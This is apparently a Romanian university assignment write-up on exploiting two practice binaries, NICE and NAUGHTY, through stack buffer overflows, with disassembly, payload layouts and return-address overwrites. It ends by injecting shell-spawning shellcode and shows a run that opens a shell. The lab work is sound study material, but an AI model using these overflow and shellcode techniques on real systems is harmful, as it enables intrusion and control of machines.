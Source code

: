 ## Fisierul NICE

### Analiza binarului

Functia vulnerabila se afla la adresa 0x08049329. In aceasta functie, se aloca
spatiu pentru 0x2f9 bytes. Apoi este salvata pe stiva, mai exact la pozitia
ebp-0x1de, adresa unei functii (0x80492c8). Urmeaza apoi o citere de la tasta-
tura. Daca se citesc maxim 0x2f9-0x1de=283 bytes, nu va fi nicio problema. In
schimb daca se citesc mai multi, se va suprascrie adresa functiei salvata pe
stiva si programul va functiona diferit, intruact ulterior, functia de la acea
adresa va fi apelata. Asa cum se poate observa din codul de mai jos, se citesc
0x2f9 bytes, deci adresa acelei functii va putea fi suprascrisa.


 8049329:       55                      push   ebp
 804932a:       89 e5                   mov    ebp,esp
 804932c:       81 ec f9 02 00 00       sub    esp,0x2f9
 8049332:       c7 85 22 fe ff ff c8    mov    DWORD PTR [ebp-0x1de],0x80492c8
 8049339:       92 04 08 
 804933c:       89 e2                   mov    edx,esp
 804933e:       68 f9 02 00 00          push   0x2f9
 8049343:       52                      push   edx
 8049344:       6a 00                   push   0x0
 8049346:       e8 e5 fc ff ff          call   8049030 <read@plt>
 804934b:       8b 85 22 fe ff ff       mov    eax,DWORD PTR [ebp-0x1de]
 8049351:       ff d0                   call   eax
 8049353:       c9                      leave  
 8049354:       c3                      ret    


### Spargerea binarului

Este suficient sa suprascriu adresa acelei functii cu o alta adresa care va
genera mesajul dorit. Aceasta adresa este 0x08049291 deoarece:

- la eticheta print_flag se afla 7 functii (se observa 7 cadre de stiva);
- main-ul contine 4 functii care doar citesc un numar de bytes si inca una
vulnerabila (cea de a patra);
- a doua functie din print_flag este cea la care "se sare", daca nu este
exploatata vulnerabilitatea, programul afisand "All done...";
- ramane astfel o singura functie, avand adresa 8049291, in corpul careia se
poate observa un apel al functiei "puts", care probabil printeaza mesajul
NICE_FLAG{...}.


 8049291:       55                      push   ebp
 8049292:       89 e5                   mov    ebp,esp
 8049294:       6a 04                   push   0x4
 8049296:       68 66 c0 04 08          push   0x804c066
 804929b:       6a 00                   push   0x0
 804929d:       6a 00                   push   0x0
 804929f:       6a 00                   push   0x0
 80492a1:       6a 00                   push   0x0
 80492a3:       e8 c8 fd ff ff          call   8049070 <ptrace@plt>
 80492a8:       83 c4 10                add    esp,0x10
 80492ab:       83 f8 ff                cmp    eax,0xffffffff
 80492ae:       75 07                   jne    80492b7 <print_flag+0x26>
 80492b0:       6a 01                   push   0x1
 80492b2:       e8 99 fd ff ff          call   8049050 <exit@plt>
 80492b7:       e8 99 ff ff ff          call   8049255 <__x86.get_pc_thunk.bx+0x185>
 80492bc:       68 28 c0 04 08          push   0x804c028
 80492c1:       e8 7a fd ff ff          call   8049040 <puts@plt>
 80492c6:       c9                      leave  
 80492c7:       c3                      ret    


Astfel, pentru a sparge binarul, am citit de la tastatura:

- 98 bytes pentru prima functie, intrucat functia executa exact aceasta
operatie;
- 297 bytes pentru a doua, din acelasi motiv;
- 229 bytes pentru a treia, din acelasi motiv;
- 283 bytes pentru a patra la care am adaugat noua adresa, 0x08049291,
scrisa in little endian.



## Fisierul NAUGHTY

### Spargerea binarului

Vulnerabilitatea in acest binar este o functie care citeste pe stiva mai mult
decat se alocase inainte, putand astfel modifica adresa de retur a functiei
apelante. Concret, a patra functie apelata din main, ce are adresa  0x08049362,
aloca 0x1f2 bytes si citeste 0x34d bytes.


 8049362:       55                      push   ebp
 8049363:       89 e5                   mov    ebp,esp
 8049365:       81 ec f2 01 00 00       sub    esp,0x1f2
 804936b:       89 e2                   mov    edx,esp
 804936d:       68 4b 03 00 00          push   0x34b
 8049372:       52                      push   edx
 8049373:       6a 00                   push   0x0
 8049375:       e8 b6 fc ff ff          call   8049030 <read@plt>
 804937a:       81 bd 75 ff ff ff 88    cmp    DWORD PTR [ebp-0x8b],0xbb4488
 8049381:       44 bb 00 
 8049384:       74 07                   je     804938d <print_flag+0xfc>
 8049386:       6a 01                   push   0x1
 8049388:       e8 c3 fc ff ff          call   8049050 <exit@plt>
 804938d:       c9                      leave  
 804938e:       c3                      ret


Pentru a putea sparge binarul, trebuie ca primele 3 functii apelate din main
sa nu treaca de if-ul corespunzator verificarii unui element citit cu o valoare
data in program. Astfel, prima functie din main, cea de la adresa 0x080492de:

- aloca 0x10d bytes si citeste de la ebp-0x10d in sus, 0xcf bytes;
- compara numarul de la ebp-0xb9 cu valoarea 0x3113cc71, iar daca sunt egale se
continua executia programului.


 80492de:       55                      push   ebp
 80492df:       89 e5                   mov    ebp,esp
 80492e1:       81 ec 0d 01 00 00       sub    esp,0x10d
 80492e7:       89 e2                   mov    edx,esp
 80492e9:       68 cf 00 00 00          push   0xcf
 80492ee:       52                      push   edx
 80492ef:       6a 00                   push   0x0
 80492f1:       e8 3a fd ff ff          call   8049030 <read@plt>
 80492f6:       81 bd 47 ff ff ff 71    cmp    DWORD PTR [ebp-0xb9],0x3113cc71
 80492fd:       cc 13 31 
 8049300:       74 07                   je     8049309 <print_flag+0x78>
 8049302:       6a 01                   push   0x1
 8049304:       e8 47 fd ff ff          call   8049050 <exit@plt>
 8049309:       c9                      leave  
 804930a:       c3                      ret


Deci trebuie avut grija cand citesc de la tastatura, sa introduc 0x10d-0xb9=84
bytes random, apoi numarul 0x3113cc71, in little endian si apoi inca 0xcf-84-4=119
bytes random pentru a continua executia programului.

Pentru urmatoarele doua functii se procedeaza identic.

Pentru a patra functie, unde se citeste mai mult decat se aloca, se citeste prac-
tic intreg numarul de bytes alocat si anume 0x1f2 bytes, avand grija ca mai sus
sa pun numarul corect pe pozitia indicata, iar apoi se citesc inca 4 bytes random
pentru a suprascrie vechiul ebp salvat pe stiva. In final se citeste de la tasta-
tura noua adresa a functiei la care "va sari" executia programului. Practic se
pune adresa 0x08049291, scrisa desigur in little endian, explicatia fiind simi-
lara cu cea din binarul NICE.

In acest fel, functia la care se trece va afisa mesajul "NAUGHTY_FLAG{...}".



### Shellcode

Folosind din nou binarul NAUGHTY, exploatam vulnerabilitatea prezentata anterior
din a patra functie. Ideea este ca in loc sa citim o gramada de caractere
garbage, la un moment dat sa citim codul unei functii care deschide un shell.

Asadar, am dat ca input pentru functia respectiva:
- 100 caractere garbage;
- un string in hexa de 55 bytes care reprezinta codul unei functii ce deschide
un shell (luat de la urmatorul [link](http://shell-storm.org/shellcode/files/shellcode-811.php))
- inca 204 caractere garbage;
- numarul "\x88\x44\xbb\x00", pentru a trece de if-ul care compara valoarea de
la pozitia la care am ajuns cu acest numar;
- inca 139 de caractere garbage astfel incat sa suprasciu tot pana la vechiul
ebp salvat, urmand sa suprascriu si adresa de return;
- "\x7a\xd0\xff\xff", noua adresa de return, care reprezinta de fapt adresa la
care este stocat shellcode-ul citit anterior de la tastatura.

Aceasta noua adresa de return se gaseste cu ajutorul gdb-ului, astfel ca aflu
la ce adresa pointeaza ebp-ul si adun 100, pentru ca am, inainte de citirea
shellcode-ului, am citit 100 bytes garbage. Astfel, obtin adresa de pe stiva la
care este salvat shellcode-ul.

#### Exemplu de rulare

student@IOCLA:~/tema4$ ./naughty < naughty_shellcode 
\$ ls
README	naughty  naughty_payload  naughty_shellcode  nice  nice_payload  tema4.zip
\$ pwd
/home/student/tema4
\$ exit
student@IOCLA:~/tema4$ 


